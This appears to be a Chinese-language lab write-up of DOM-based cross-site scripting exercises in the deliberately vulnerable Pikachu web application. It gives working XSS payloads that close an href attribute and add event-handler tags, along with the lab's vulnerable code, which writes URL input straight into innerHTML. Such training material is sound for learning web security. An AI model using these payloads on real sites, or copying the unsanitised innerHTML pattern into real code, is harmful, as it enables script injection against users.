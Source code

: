 **漏洞利用**

输入`test#!12` 测试,F12 查看源代码,找出可注入点是 `<a href="test#!12">what do you see?</a>` ,对 href 构造一个闭合,这样就能实现对 a 标签的一个"控制"的作用.

payload 构造如下 `'> <marquee loop="99" onfinish=alert(1)>hack the planet</marquee>`

![](../../../../assets/img/安全/实验/Misc/pikachu/10.png)

### DOM 型 xss-x

**核心代码**
```html
<div id="xssd_main">
                <script>
                    function domxss(){
                        var str = window.location.search;
                        var txss = decodeURIComponent(str.split("text=")[1]);
                        var xss = txss.replace(/\+/g,' ');
//                        alert(xss);

                        document.getElementById("dom").innerHTML = "<a href='"+xss+"'>就让往事都随风,都随风吧</a>";
                    }
                    //试试:'><img src="#" onmouseover="alert('xss')">
                    //试试:' onclick="alert('xss')">,闭合掉就行
                </script>
                <!--<a href="" onclick=('xss')>-->
                <form method="get">
                <input id="text" name="text" type="text"  value="" />
                <input id="submit" type="submit" value="请说出你的伤心往事"/>
                </form>
                <div id="dom"></div>
            </div>
```
